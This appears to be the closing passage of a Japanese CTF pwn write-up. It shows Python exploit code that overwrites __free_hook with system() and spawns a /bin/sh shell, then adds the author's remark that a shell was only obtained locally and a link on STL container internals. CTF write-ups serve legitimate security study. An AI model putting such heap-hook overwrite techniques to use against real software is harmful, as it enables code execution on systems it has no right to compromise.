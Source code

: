 ```python
print(f"[+] system     : {hex(system_addr)}")

wipe()

for i in range(16):
    push(0xba0000 + i)

store(-2, 0x31)

for i in range(16,32):
    push(0xba0000 + i)

target = free_hook_addr - 0x8

free_hook_bottom = target & 0xffffffff
free_hook_top = target >> 32

if free_hook_bottom & 0x80000000:
    free_hook_bottom -=0x100000000

store(-20, free_hook_bottom)
store(-19, free_hook_top)

wipe()

for i in range(8):
    push(0)

store(-2, 0x21)

wipe()

push(u32(b"/bin"))
push(u32(b"/sh\x00"))

system_bottom = system_addr & 0xffffffff
system_top = system_addr >> 32

if system_bottom & 0x80000000:
    system_bottom -= 0x100000000

push(system_bottom)
push(system_top)

push(0)

attach_wait()

sc.interactive()

```

## Flag

ローカルでシェル取っただけ

(ところで、libc leakのために600回程度通信してるけど、タイムアウトがあったら解けない可能性がある事にWriteupを書きながら気付いた)

## Resources

- [C++のpwn/revで使うSTLコンテナの構造とバグパターン一覧 - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732#stdvector): `std::vector`の構造について

